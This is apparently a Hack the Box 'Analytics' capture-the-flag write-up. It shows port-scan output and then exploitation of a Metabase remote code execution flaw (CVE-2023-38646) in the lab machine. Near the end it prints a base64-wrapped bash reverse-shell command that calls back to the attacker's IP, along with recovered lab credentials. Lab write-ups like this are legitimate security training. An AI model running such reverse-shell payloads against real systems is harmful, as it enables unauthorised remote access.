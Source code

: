 # Hack the Box - Analytics

```shell
> rustscan -b 1000 -u 5000 -r 0-65535 -a 10.10.11.233 -- -Pn
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:18 EDT
Initiating Connect Scan at 14:18
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:18, 0.08s elapsed (2 total ports)
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.079s latency).
Scanned at 2023-10-11 14:18:03 EDT for 1s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.12 seconds
```

```shell
> rustscan -u 5000 -p 22,80 -a 10.10.11.233 -- -Pn -sCV
```
```shell
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Nmap? More like slowmap.🐢

[~] The config file is expected to be at "/home/superuser/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.11.233:22
Open 10.10.11.233:80
[~] Starting Script(s)
[>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-11 14:19 EDT
NSE: Loaded 156 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Initiating Connect Scan at 14:19
Scanning analytical.htb (10.10.11.233) [2 ports]
Discovered open port 80/tcp on 10.10.11.233
Discovered open port 22/tcp on 10.10.11.233
Completed Connect Scan at 14:19, 0.08s elapsed (2 total ports)
Initiating Service scan at 14:19
Scanning 2 services on analytical.htb (10.10.11.233)
Completed Service scan at 14:19, 6.17s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.11.233.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 2.51s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.34s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Nmap scan report for analytical.htb (10.10.11.233)
Host is up, received user-set (0.082s latency).
Scanned at 2023-10-11 14:19:29 EDT for 9s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Analytical
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 14:19
Completed NSE at 14:19, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.68 seconds
```

TCP 80 - HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a7d29d8f-533f-47b7-9bb8-ea8e88ad51f2)

```http
http://data.analytical.htb/auth/login?redirect=%2F
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b2c852d7-68d7-4fa9-ae80-2f23bdd66dc6)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5514d41e-fcac-4f3c-a712-ab91a93c47f7)

Metabase - Remote Code Execution (CVE-2023-38646)
Session Token Leaked
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/b701daa7-c72c-4670-b417-eb345356740a)

Test Command Execution
```shell
python -m http.server 80
```
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/91e7bbec-50db-44d8-97e7-7b27835991be)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/470a709c-3a69-4aa9-9868-ab9bd8b6c6a7)

Reverse Shell Payload
```shell
bash -c {echo,{payload}|{base64,-d}|{bash,-i}
```

Shell Base64 encoded
```shell
> echo "sh -i >& /dev/tcp/10.10.14.23/1337 0>&1" | base64
c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjMvMTMzNyAwPiYxCg==
```

![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/74ceef41-77e9-4af1-aea1-7fdbe072dcc7)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/0ed2a2c7-e3eb-43f1-afd2-edbbcee86ddb)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/9336028c-c5ce-4dd0-a10b-b684258108ef)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/fb9de20d-edbd-4769-9a1c-3abbf94fc677)

```shell
creds: metalytics:An4lytics_ds20223#
```
